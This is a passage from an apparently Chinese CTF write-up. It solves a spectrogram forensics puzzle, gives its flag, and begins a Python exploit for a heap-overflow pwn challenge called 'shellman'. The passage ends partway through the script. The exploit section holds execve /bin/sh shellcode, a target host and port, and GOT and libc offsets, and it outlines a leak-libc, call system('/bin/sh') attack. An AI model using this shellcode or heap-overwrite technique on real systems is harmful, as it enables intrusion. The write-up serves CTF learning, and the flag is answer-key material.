 ![spectrogram](enclosure/spectrogram.bmp)   
可看到高频区域有一些信息，以0.1+0.4*x秒的模式来读，   
翻译成二进制得0b01100110、0b00110110，   
也即是"f6..."，猜测应该是"flag{...}"，   
多看几个字符后发现每8位结尾都是0，   
于是把每8bit倒序一下，得flag   
`flag{f0r3ns1c_1s_r3al1y_v3ry_ve7y_fun}`

吐槽一下flag太长了..人肉读二进制ascii真蛋疼= =   


## `300` shellman

很明显的堆溢出，修改的时候可以覆盖下一个堆块头，有指向堆的指针，于是可以修改指向堆的指针，从而通过两次读取修改任意地址为任意值。

然后先泄露libc地址，然后计算system和/bin/sh字符串的地址，调用system("/bin/sh")弹shell。

```python
#!/usr/bin/env python
#encoding:utf-8

import zio
from time import sleep

def NOPS(n):
    return 'B' * n

def LEFT_PAD(s, n):
    return NOPS(n - len(s)) + s

def RIGHT_PAD(s, n):
    return s + NOPS(n - len(s))

DELAY = 1
JMP06 = '\xeb\x06'
SHELLCODE = "j\x0bX\x991\xc9Rh//shh/bin\x89\xe3\xcd\x80"

def RAW_WITH_DELAY(s):
    sleep(DELAY)
    return str(s)

def NONE_WITH_DELAY(s):
    sleep(DELAY)
    return ''

TARGET = ('119.254.101.197', 10002)
GOT_PRINTF = 0x601618
GOT_FREE = 0x601600
LIBC_PRINTF = 0x54400
LIBC_SYSTEM = 0x46640
LIBC_BINSH = 0x17CCDB


def list_sc():
    global io
```